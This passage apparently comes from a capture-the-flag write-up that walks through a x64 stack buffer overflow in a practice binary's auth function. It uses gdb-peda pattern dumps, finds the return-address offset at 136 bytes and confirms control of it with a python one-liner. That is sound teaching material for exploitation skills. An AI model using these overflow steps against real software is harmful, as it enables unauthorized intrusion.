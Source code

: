     0024| 0x7fffffffdf80 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%"...)        
    0032| 0x7fffffffdf88 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA"...)        
    0040| 0x7fffffffdf90 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%W"...)        
    0048| 0x7fffffffdf98 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%"...)        
    0056| 0x7fffffffdfa0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA"...)        
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000401618 in auth ()



In x64, I'm not going to see the segfault with the pattern in RIP like I
would in x86. Instead, it throws an exception on trying to move an
invalid address into RIP. Since I'm at a `ret`, the address moving into
RIP is on top of the stack. So the value that would go into RIP is
`AAQAAmAA`. That is part of the string I control, which means getting
control over RIP is possible.

Furthermore, I can use `pattern_offset` to see how far into the input
buffer those bytes are:



    gdb-peda$ pattern_offset AAQAAmAA
    AAQAAmAA found at offset: 136



I can do a sanity check:



    $ python3 -c 'print("A"*136 + "B"*8)'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB



When I enter that string at the prompt, it crashes here:



    [----------------------------------registers-----------------------------------]
    RAX: 0x0
    RBX: 0x0
    RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f988c0 --> 0x0
    RSI: 0x4059c0 ("access denied.\nssword: ")
    RDI: 0x0
    RBP: 0x4141414141414141 ('AAAAAAAA')
    RSP: 0x7fffffffdf68 ("BBBBBBBB")
    RIP: 0x401618 (<auth+261>:      ret)
    R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
    R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
    R10: 0xfffffffffffff638
    R11: 0x246
    R12: 0x401170 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe060 --> 0x1
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)